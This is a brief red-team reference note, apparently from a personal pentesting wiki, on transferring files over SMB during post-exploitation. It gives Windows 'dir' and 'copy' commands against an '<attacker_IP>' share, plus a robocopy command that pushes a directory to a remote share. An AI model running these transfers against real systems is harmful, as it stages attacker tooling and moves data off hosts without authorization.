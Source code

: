 # SMB

## 01 - Usage

```
C:\> dir \\<attacker_IP>\<share_name>

C:\> copy \\<attacker_IP>\<share_name>\<source> <destination>
```

For `/mt` flag switch run the command on windows that is related about hardware information from [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/Enumeration and Discovery/Windows/Host/System and Kernel Version/Kernel/Manual|Enumeration and Discovery]] phase

`C:\> robocopy <source> \\<IP>\<share_name>\<destination> /s /r:0 /w:0 /copy:DA /dcopy:DA /mt:<threads>`

---
## References

- [Chris Titus Robocopy](https://www.christitus.com/robocopy)